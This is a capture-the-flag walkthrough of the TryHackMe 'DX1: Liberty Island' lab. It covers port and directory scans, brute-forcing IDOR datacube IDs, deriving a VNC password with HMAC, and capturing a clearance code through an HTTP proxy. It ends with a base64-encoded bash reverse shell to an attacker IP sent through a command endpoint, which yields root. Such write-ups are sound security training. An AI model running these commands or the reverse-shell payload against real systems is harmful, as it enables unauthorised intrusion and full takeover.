

# TryHackMe-DX1: Liberty Island

**Scope:**

- Insecure Direct Object Reference (IDOR)
- VNC (Virtual Network Computing) Protocol

**Keywords:**

- Directory Scan
- Insecure Direct Object Reference (IDOR) Brute Force
- Keyed-Hash Message Authentication Code (HMAC)
- VNC (Virtual Network Computing) Protocol
- HTTP Proxy
- vncviewer

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt --min-rate=1000 --max-retries=3 -Pn -p- $target_ip`
- `wfuzz -w /usr/share/wordlists/dirb/big.txt --hc 403,404,500,501,502,503 -c -L -t 50 http://dx1liberty.thm/FUZZ`
- `ffuf -u 'http://dx1liberty.thm/datacubes/0FUZZ' -w <(seq 1 10000) -mc 200,301,302 -t 70 -ic`
- `nmap -sV -A -oN nmap_vnc_result.txt -p 5901 --script vnc-info,realvnc-auth-bypass,vnc-title -Pn $target_ip`
- `msfconsole -qx 'use auxiliary/scanner/vnc/vnc_none_auth'`
- `vncviewer $target_ip:5901`
- `curl -iLX $'POST' -D unatcoresponse.txt -H 'Clearance-Code: 7gFfT74scCgzMqW4EQbu' --data-binary 'directive=echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIuMzcuMzcvMTEyMjIgMD4mMQo= | base64 -d | bash' http://UNATCO:23023`

**System Commands:**

- `HTTP_PROXY=10.2.37.37:41122 ./badactors-list`

### Laboratory Environment

[TryHackMe | Cyber Security Training](https://tryhackme.com/r/room/dx1libertyislandplde)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt --min-rate=1000 --max-retries=3 -Pn -p- $target_ip`

```jsx
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: United Nations Anti-Terrorist Coalition
| http-robots.txt: 2 disallowed entries 
|_/datacubes *
|_http-server-header: Apache/2.4.41 (Ubuntu)
5901/tcp  open  vnc     VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|     VeNCrypt (19)
|     VNC Authentication (2)
|   VeNCrypt auth subtypes: 
|     Unknown security type (2)
|_    VNC auth, Anonymous TLS (258)
23023/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Access-Control-Allow-Origin: *
|     Content-Type: text/plain
|     Date: Thu, 14 Nov 2024 07:07:44 GMT
|     Content-Length: 90
|     UNATCO Liberty Island - Command/Control
|     RESTRICTED: ANGEL/OA
|     send a directive to process
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Access-Control-Allow-Origin: *
|     Content-Type: text/plain
|     Date: Thu, 14 Nov 2024 07:07:12 GMT
|     Content-Length: 90
|     UNATCO Liberty Island - Command/Control
|     RESTRICTED: ANGEL/OA
|     send a directive to process
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Access-Control-Allow-Origin: *
|     Content-Type: text/plain
|     Date: Thu, 14 Nov 2024 07:07:13 GMT
|     Content-Length: 90
|     UNATCO Liberty Island - Command/Control
|     RESTRICTED: ANGEL/OA
|_    send a directive to process
```

> **HTTP Port Check & Endpoint Control Phase**
> 

`curl -iLX GET -D response.txt http://dx1liberty.thm`

```jsx
HTTP/1.1 200 OK
Date: Thu, 14 Nov 2024 07:08:51 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Sat, 22 Oct 2022 14:08:50 GMT
ETag: "38d-5eba018fbc080"
Accept-Ranges: bytes
Content-Length: 909
Vary: Accept-Encoding
Content-Type: text/html

<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>United Nations Anti-Terrorist Coalition</title>
    <link href="style.css" rel="stylesheet" />
  </head>
  <body>
    <header>
        <div>
            
        </div>
        <h1>UNATCO</h1>
        <div>
            <span>United Nations Anti-Terrorist Coalition</span>
        </div>
        <div>
            <i>Nihil aliud scit necessitas quam vincere</i>
        </div>
    </header>
    <nav>
        <ul>
            <li><a href="terrorism.html">On Terrorism</a></li>
            <li><a href="threats.html">Know Your Enemy</a></li>
            <li><a href="badactors.html">War in Cyberspace</a></li>
        </ul>
        <span class="clear"></span>
    </nav>
    <div>
        
    </div>
    <footer>
        Site maintained by AJacobson//UNATCO.00013.76490
    </footer>
  </body>
</html>
```

`curl -iLX GET http://dx1liberty.thm/badactors.html`

```jsx
HTTP/1.1 200 OK
Date: Thu, 14 Nov 2024 07:09:37 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Sat, 22 Oct 2022 14:08:50 GMT
ETag: "4d6-5eba018fbc080"
Accept-Ranges: bytes
Content-Length: 1238
Vary: Accept-Encoding
Content-Type: text/html

<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>United Nations Anti-Terrorist Coalition</title>
    <link href="style.css" rel="stylesheet" />
  </head>
  <body>
    <div>
        <a href="index.html"></a>
    </div>
    <header>
        <h1>War in Cyberspace</h1>
        <div>Current Cyber Watchlist</div>
    </header>
    
    <div>
        <h2>Vigilance Online</h2>
        <p>As part of its duties, UNATCO monitors the digital domain as well as the physical, keeping track of those malevolent actors who would use their technical aptitude to threaten security and harm the peace-loving peoples of the world.</p>
        <p>This page keeps a list of usernames that have been flagged by our sophisticated monitoring systems. If you see anyone in this list during your own travels online, be warned! You may be dealing with a cyberterrorist.
    </div>

    <div>
        <iframe src="badactors.txt"></iframe>
    </div>

    <footer>
        List is maintained by system admin, AJacobson//UNATCO.00013.76490
    </footer>
    <!-- if you can see this I might add you to the list. per United Nations directive #17, F12 is now a international cyber crime -->
  </body>
</html> 
```

`curl -sLX GET http://dx1liberty.thm/badactors.txt -o badactors.txt`

```jsx
apriest
aquinas_nz
cookiecat
craks
curley
darkmattermatt
etodd
gfoyle
grank
gsyme
haz
hgrimaldi
hhall
hquinnzell
infosneknz
jallred
jhearst
jlebedev
jooleeah
juannsf
killer_andrew
lachland
leesh
levelbeam
mattypattatty
memn0ps
nhas
notsus
oenzian
roseycross
sjasperson
sweetcharity
tfrase
thom_seven
ttong
```

> **Directory Scan & Endpoint Control Phase**
> 

`wfuzz -w /usr/share/wordlists/dirb/big.txt --hc 403,404,500,501,502,503 -c -L -t 50 http://dx1liberty.thm/FUZZ`

```jsx
000015551:   200        1 L      18 W       95 Ch       "robots.txt"
```

`curl -iLX GET http://dx1liberty.thm/robots.txt`

```jsx
HTTP/1.1 200 OK
Date: Thu, 14 Nov 2024 07:24:20 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Sat, 22 Oct 2022 14:08:50 GMT
ETag: "5f-5eba018fbc080"
Accept-Ranges: bytes
Content-Length: 95
Vary: Accept-Encoding
Content-Type: text/plain

# Disallow: /datacubes # why just block this? no corp should crawl our stuff - alex
Disallow: *
```

`curl -iLX GET http://dx1liberty.thm/datacubes`

```jsx
HTTP/1.1 301 Moved Permanently
Date: Thu, 14 Nov 2024 07:24:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://dx1liberty.thm/datacubes/
Content-Length: 320
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Thu, 14 Nov 2024 07:24:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Sat, 22 Oct 2022 14:08:50 GMT
ETag: "63-5eba018fbc080"
Accept-Ranges: bytes
Content-Length: 99
Vary: Accept-Encoding
Content-Type: text/html

<!DOCTYPE html>
<html><head><meta http-equiv="refresh" content = "0; url=./0000" /></head></html>

```

`curl -iLX GET http://dx1liberty.thm/datacubes/0000`

```jsx
HTTP/1.1 301 Moved Permanently
Date: Thu, 14 Nov 2024 07:25:28 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://dx1liberty.thm/datacubes/0000/
Content-Length: 325
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Thu, 14 Nov 2024 07:25:29 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Sat, 22 Oct 2022 14:08:50 GMT
ETag: "fb-5eba018fbc080"
Accept-Ranges: bytes
Content-Length: 251
Vary: Accept-Encoding
Content-Type: text/html

Liberty Island Datapads Archive<br/><br/>
All credentials within *should* be [redacted] - alert the administrators immediately if any are found that are 'clear text'<br/><br/>
Access granted to personnel with clearance of Domination/5F or higher only.
```

> **Insecure Direct Object Reference (IDOR) Phase**
> 

`ffuf -u 'http://dx1liberty.thm/datacubes/0FUZZ' -w <(seq 1 10000) -mc 200,301,302 -t 70 -ic`

```jsx
103                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 333ms]
233                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 327ms]
451                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 327ms]

```

`curl -iLX GET http://dx1liberty.thm/datacubes/0103`

```jsx
HTTP/1.1 301 Moved Permanently
Date: Thu, 14 Nov 2024 07:33:04 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://dx1liberty.thm/datacubes/0103/
Content-Length: 325
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Thu, 14 Nov 2024 07:33:04 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Sat, 22 Oct 2022 14:08:50 GMT
ETag: "5f-5eba018fbc080"
Accept-Ranges: bytes
Content-Length: 95
Vary: Accept-Encoding
Content-Type: text/html

Change ghermann password to [redacted].  Next week I guess it'll be
[redacted].  Strange guy...
```

`curl -iLX GET http://dx1liberty.thm/datacubes/0233`

```jsx
HTTP/1.1 301 Moved Permanently
Date: Thu, 14 Nov 2024 07:33:32 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://dx1liberty.thm/datacubes/0233/
Content-Length: 325
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Thu, 14 Nov 2024 07:33:32 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Sat, 22 Oct 2022 14:08:50 GMT
ETag: "c5-5eba018fbc080"
Accept-Ranges: bytes
Content-Length: 197
Vary: Accept-Encoding
Content-Type: text/html

From: Data Administration<br/>
To: Maintenance<br/><br/>

Please change the entry codes on the east hatch to [redacted].<br/><br/>

NOTE: This datacube should be erased immediately upon completion.
```

`curl -iLX GET http://dx1liberty.thm/datacubes/0451`

```jsx
HTTP/1.1 301 Moved Permanently
Date: Thu, 14 Nov 2024 07:33:58 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://dx1liberty.thm/datacubes/0451/
Content-Length: 325
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Thu, 14 Nov 2024 07:33:59 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Sat, 22 Oct 2022 14:08:50 GMT
ETag: "1f0-5eba018fbc080"
Accept-Ranges: bytes
Content-Length: 496
Vary: Accept-Encoding
Content-Type: text/html

Brother,<br/><br/>

I've set up <b>VNC</b> on this machine under jacobson's account. We don't know his loyalty, but should assume hostile.<br/>
Problem is he's good - no doubt he'll find it... a hasty defense, but
since we won't be here long, it should work.  <br/><br/>

The VNC login is the following message, 'smashthestate', hmac'ed with my username from the 'bad actors' list (lol). <br/>
Use md5 for the hmac hashing algo. The first 8 characters of the final hash is the VNC password.

- JL
```

> **Keyed-Hash Message Authentication Code (HMAC) Phase**
> 

`nano hashcracker.py`

```jsx
import hmac
import hashlib

# Target HMAC hash and message
target_hmac = b'smashthestate'
hash_function = hashlib.md5  # or hashlib.md5, hashlib.sha256, etc.

hmac_hash = hmac.new(b'jlebedev', target_hmac, hash_function).hexdigest()
print(f"Key found: {hmac_hash}")
```

`python3 hashcracker.py`

```jsx
Key found: 311781a1830c1332a903920a59eb6d7a
```

> **VNC (Virtual Network Computing) Protocol Phase**
> 

**For more information:**

[5800,5801,5900,5901 - Pentesting VNC | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc)

`curl -iLX GET -D vncresponse.txt http://dx1liberty.thm:5901`

```jsx
Received HTTP/0.9 when not allowed
```

`nmap -sV -A -oN nmap_vnc_result.txt -p 5901 --script vnc-info,realvnc-auth-bypass,vnc-title -Pn $target_ip`

```jsx
PORT     STATE SERVICE VERSION
5901/tcp open  vnc     VNC (protocol 3.8)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (93%), Linux 2.6.32 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%), Linux 3.2 - 4.9 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

`msfconsole -qx 'use auxiliary/scanner/vnc/vnc_none_auth'` 

```jsx
msf6 auxiliary(scanner/vnc/vnc_none_auth) > set RHOSTS 10.10.41.58
RHOSTS => 10.10.41.58
msf6 auxiliary(scanner/vnc/vnc_none_auth) > set RPORT 5901
RPORT => 5901
msf6 auxiliary(scanner/vnc/vnc_none_auth) > run
[*] 10.10.41.58:5901      - 10.10.41.58:5901 - VNC server protocol version: 3.8
[*] 10.10.41.58:5901      - 10.10.41.58:5901 - VNC server security types supported: VeNCrypt, VNC
[*] 10.10.41.58:5901      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

`vncviewer $target_ip:5901`

```jsx
Connected to RFB server, using protocol version 3.8
Performing standard VNC authentication
Password:  311781a1830c1332a903920a59eb6d7a
Authentication successful
Desktop name "unatco-cmd:1 (ajacobson)"
VNC server default format:
  16 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 31 green 63 blue 31, shift red 11 green 5 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0

```



> **Privilege Escalation with Internal Logic Phase**
> 


`nc -nlvp 41122`

```jsx
listening on [any] 41122 ...
```


**COMMAND:**

```jsx
HTTP_PROXY=10.2.37.37:41122 ./badactors-list
```

```jsx
listening on [any] 41122 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.41.58] 48000
POST http://UNATCO:23023/ HTTP/1.1
Host: UNATCO:23023
User-Agent: Go-http-client/1.1
Content-Length: 49
Clearance-Code: 7gFfT74scCgzMqW4EQbu
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

directive=cat+%2Fvar%2Fwww%2Fhtml%2Fbadactors.txt

```

`nano /etc/hosts`

```jsx
10.10.41.58     dx1liberty.thm UNATCO
```

`curl -iLX GET -D unatcoresponse.txt http://UNATCO:23023`

```jsx
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Content-Type: text/plain
Date: Thu, 14 Nov 2024 08:06:14 GMT
Content-Length: 90

UNATCO Liberty Island - Command/Control

RESTRICTED: ANGEL/OA

send a directive to process 
```

`curl -iLX $'POST' -D unatcoresponse.txt -H 'Clearance-Code: 7gFfT74scCgzMqW4EQbu' --data-binary 'directive=cat+%2Fvar%2Fwww%2Fhtml%2Fbadactors.txt' http://UNATCO:23023`

```jsx
apriest
aquinas_nz
cookiecat
craks
curley
darkmattermatt
etodd
gfoyle
grank
gsyme

[REDACTED] - MORE
```

`curl -iLX $'POST' -D unatcoresponse.txt -H 'Clearance-Code: 7gFfT74scCgzMqW4EQbu' --data-binary 'directive=whoami' http://UNATCO:23023`

```jsx
http://UNATCO:23023
HTTP/1.1 202 Accepted
Access-Control-Allow-Origin: *
Content-Type: text/plain
Date: Thu, 14 Nov 2024 08:08:10 GMT
Content-Length: 5

root
```

`nc -nlvp 11222`

```jsx
listening on [any] 11222 ...
```

`nano shellroot.txt`

```jsx
/bin/bash -i >& /dev/tcp/10.2.37.37/11222 0>&1
```

`cat shellroot.txt | base64`

```jsx
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIuMzcuMzcvMTEyMjIgMD4mMQo=
```

`curl -iLX $'POST' -D unatcoresponse.txt -H 'Clearance-Code: 7gFfT74scCgzMqW4EQbu' --data-binary 'directive=echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIuMzcuMzcvMTEyMjIgMD4mMQo= | base64 -d | bash' http://UNATCO:23023`

```jsx
listening on [any] 11222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.41.58] 44260
bash: cannot set terminal process group (627): Inappropriate ioctl for device
bash: no job control in this shell
root@unatco-cmd:/# whoami
whoami
root
root@unatco-cmd:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@unatco-cmd:/#
```

# **Appendix**

## Insecure Direct Object Reference (IDOR)

<aside>
💡

Insecure Direct Object Reference (IDOR) is a security vulnerability that occurs when an application exposes direct access to objects (such as database records or files) based on user-supplied input, without properly verifying the user’s authorization to access those resources. This vulnerability allows attackers to manipulate input to access data or resources that they are not authorized to view or modify.

</aside>

## VNC (Virtual Network Computing) Protocol

<aside>
💡

The VNC (Virtual Network Computing) Protocol is a graphical desktop-sharing protocol that allows users to remotely control another computer's desktop interface. VNC transmits the keyboard and mouse inputs from one computer to another, and it relays the graphical screen updates from the remote system back to the client. This enables users to view and interact with a remote desktop environment as though they were physically present at that computer.

</aside>